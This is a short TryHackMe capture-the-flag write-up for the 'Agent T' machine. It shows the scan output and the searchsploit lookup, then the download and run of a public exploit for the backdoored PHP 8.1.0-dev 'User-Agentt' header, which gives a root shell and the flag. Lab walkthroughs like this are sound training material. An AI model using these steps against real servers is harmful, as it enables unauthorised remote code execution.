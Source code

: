 # Agent T - TryHackMe Writeup

**Difficulty:** Easy  
**TL;DR:** Unauthenticated RCE via User-Agent in PHP 8.1.0-dev (EDB-ID:49933) → the flag
---------------------------
## Target
- Machine: `Agent-T`  
- Date: `2025-6-1`  
- Time: 10 min
- Environment: TryHackMe / CTF
---------------------------

## Steps
1. Initial scan:

```bash
└─$ nmap -sV -sC -Pn -T4  agentt.thm                                     

80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)
|_http-title:  Admin Dashboard
```

2. Scan the Headers:

```bash
└─$ curl -I http://agentt.thm/
HTTP/1.1 200 OK
Host: 10.10.233.40
Date: Mon, 20 Oct 2025 08:43:32 GMT
Connection: close
X-Powered-By: PHP/8.1.0-dev
Content-type: text/html; charset=UTF-8
```

3. Find Expolit:
```bash
└─$ searchsploit PHP 8.1.0-dev          

PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution        | php/webapps/49933.py

```


### EDB-ID:49933 :
```text 
the PHP 8.1.0-dev version was released with a backdoor on March 28th 2021, but the backdoor was quickly discovered and removed.
If this version of PHP runs on a server, an attacker can execute arbitrary code by sending the User-Agentt header.
```

4. Donwload the script and change the permission:
```bash
└─$ wget https://www.exploit-db.com/download/49933       

└─$ chmod +x 49933  
```

Run the script and get shell:
```bash
└─$ python3 49933            
Enter the full host url:
http://agentt.thm/

Interactive shell is opened on http://agentt.thm/ 
Can't acces tty; job crontol turned off.
$ id
uid=0(root) gid=0(root) groups=0(root)
```

### The flag :
```bash
$ cat /flag.txt
flag{[REDACTED]}
```
